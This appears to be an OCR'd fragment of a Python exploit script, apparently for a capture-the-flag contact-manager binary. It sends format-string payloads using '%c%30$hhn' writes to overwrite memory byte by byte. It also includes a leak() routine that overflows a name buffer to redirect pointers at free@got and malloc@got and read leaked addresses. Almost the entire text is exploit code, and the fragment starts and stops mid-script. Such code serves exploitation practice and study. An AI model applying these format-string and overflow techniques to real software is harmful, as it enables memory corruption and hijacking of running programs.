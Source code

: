 ```python
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((i >> 16) & 0xff) + 'c%30$hhn')
    readtil('>>> ')
    sendln('4')
    readtil('>>> ')

    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((x+3) & 0xff)+'c%18$hhn')
    #readtil('>>> ')
    sendln('4')
    readtil('>>> ')

    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((i >> 24) & 0xff) + 'c%30$hhn')
    readtil('>>> ')
    sendln('4')
    readtil('>>> ')
                    
    
def leak(x):
    print "leaking " + hex(x)
    global last_addr
    # edit contact 1 -> name to overflow pointers
    sendln('3')
    readtil('change? ')
    if last_addr == 0:
        sendln('BAR1')
    else:
        sendln('B'*63)
    
    readtil('>>> ')
    sendln('1')
    readtil('name:')
    #       name   len    valid   char *description==write1->free@got // char *phone==leak1->malloc@got  
    sendln('B'*63+"\x00"+"BBBB"+p(0)+p(x)+p(x)+"BAR2")
    last_addr = x
    
    readtil('>>> ')
    
    sendln('4')
    data = readtil('>>> ')
    m = re.findall('Phone #: (.*)', data)
```